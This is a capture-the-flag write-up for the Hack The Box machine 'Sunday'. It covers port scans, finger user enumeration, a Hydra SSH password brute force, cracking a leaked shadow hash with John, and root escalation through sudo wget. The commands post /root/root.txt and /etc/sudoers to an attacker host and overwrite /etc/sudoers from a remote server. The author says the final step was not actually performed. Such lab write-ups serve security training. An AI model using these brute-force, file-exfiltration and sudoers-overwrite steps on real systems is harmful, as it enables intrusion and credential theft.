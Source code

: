 # Sunday HTB, IP address:10.10.10.76

# Initial Enumeration

**1.nmap -sC -sV 10.10.10.76**

![sunday1](https://user-images.githubusercontent.com/15195048/93906871-8fc9cf00-fcb1-11ea-9eb0-7640d87254b3.png)

**2. ./nmapAutomator.sh 10.10.10.76 Full**

![sunday2](https://user-images.githubusercontent.com/15195048/93906876-90fafc00-fcb1-11ea-9e94-2e2be9c0d159.png)

**Nmap full port scan:** 

**nmap -p- -oA full-noscripts 10.10.10.76  --max-retries 0**

79/tcp    open  finger
111/tcp   open  rpcbind
22022/tcp open  unknown
55029/tcp open  unknown

Running a specific port scan:
**nmap -p 79,111,22022,55029 -sV -oA full-scripts 10.10.10.7**

Results:
Port 22022: is running **SunSSH 1.3**

Port 55029: is running a service that nmap was not able to identify

------------------------------------------------------------------------------------------------------------------------
# Port Enumeration

## 1.Enumerating finger service
   Finger is a program you can use to find information about computer users. It usually lists the login name, the full name, and possibly other details about the user you are fingering. These details may include the office location and phone number (if known), login time, idle time, time mail was last read, and the user's plan and project files.

**finger @10.10.10.76**

![sunday3](https://user-images.githubusercontent.com/15195048/93906879-91939280-fcb1-11ea-9b88-6dcd9538d0dd.png)

**perl finger-user-enum.pl -U user.txt -t 10.10.10.76**
                                                     
![sunday4](https://user-images.githubusercontent.com/15195048/93906880-91939280-fcb1-11ea-833a-f870f54e68ad.png)
![sunday5](https://user-images.githubusercontent.com/15195048/93906882-922c2900-fcb1-11ea-948a-2ae941037bfd.png)


## 2. Port 22
Connecting on port 22
From the nmap automator script we found out that SSH service is running on port 22.

**ssh sunny@10.10.10.76 -p 22022**

  Unable to negotiate with 10.10.10.76 port 22022: no matching key exchange method found. Their offer: gss-group1-sha1-toWM5Slw5Ew8Mqkay+al2g==,diffie-hellman-group-exchange-sha1,diffie-hellman-group1-sha1

**Notes:**
This particular error happens while the encrypted channel is being set up. If your system and the remote system don't share at least one cipher, there is no cipher to agree on and no encrypted channel is possible. Usually SSH servers will offer a small handful of different ciphers in order to cater to different clients

**ssh sunny@10.10.10.76 -p 22022 -oKexAlgorithms=diffie-hellman-group1-sha1**

OR

**ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 -c 3des-cbc sunny@10.10.10.76**

I will brute force with several wordlists

**HYDRA**

**hydra -V -I -l sunny -P ‘/usr/share/wordlists/rockyou.txt’ 10.10.10.76 ssh -s 22022**

![sunday6](https://user-images.githubusercontent.com/15195048/93906884-922c2900-fcb1-11ea-9a7d-3b4e59f56751.png)


 Finally “sunday” seems to be the password.

## LATERAL MOVEMENT SUNNY → SAMMY
**ssh sunny@10.10.10.76**

I found a backup file in the following directory. 
It contains two files **agen22.backup** and **shadow.backup**. The former we don’t have access to, however, we can view the latter.

![sunday7](https://user-images.githubusercontent.com/15195048/93906888-92c4bf80-fcb1-11ea-94c8-6aa6c46daa28.png)

copy sammy's hash password to a hash.txt file
**sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::**

**JOHN THE RIPPER**

**john --wordlist=/usr/share/wordlists/rockyou.txt sammy-hash.txt**

![sunday8](https://user-images.githubusercontent.com/15195048/93906889-92c4bf80-fcb1-11ea-8593-511958897aa6.png)

------------------------------------------------------------------------------------------------------------------------------------------------------------
# Privilege Escalation

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
sammy@sunday:~$ sudo -l
User sammy may run the following commands on this host:
    (root) NOPASSWD: /usr/bin/wget
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

## A)GTFOBins wget

**First attempt: Gaining a nc shell on attacker machine**

 We can use the wget –post-file parameter to post the contents of root.txt. Let’s see if that works. We spin up a Netcat listener on port 80 on our attacker machine
 **sudo wget –post-file=/root/root.txt attacker machine**

![sunday9](https://user-images.githubusercontent.com/15195048/93906893-935d5600-fcb1-11ea-9b95-cf4dc963c827.png)

We can capture the flag that way, but let’s do something else with these elevated privileges to get a root shell on the box.
## B) Change sudoers file permissions and make sammy's rights ALL
 
 What if we post the /etc/sudoers file and make Sammy or Sunny execute anything as root? Let’s first see the contents of /etc/sudoers. 
**sudo wget –post-file=/etc/sudoers <attacker machine ip**

![sunday10](https://user-images.githubusercontent.com/15195048/93906895-93f5ec80-fcb1-11ea-83d9-865552fa5d99.png)

Copying the contents of /etc/sudoers into sudoers and changing the permissions of Sammy to ALL=(root) NOPASSWD: ALL as shown below.
Collecting this file and installing it as /etc/sudoers, since wget is running as root effectively.
**sudo wget -O /etc/sudoers http://<attcker_ip:8000/sudoers**

Now we can see that with just one command, Sammy becomes root and take complete control of the box.

# Disclaimer: I did not do the Privilege Escalation part because of SSH LAG.

 
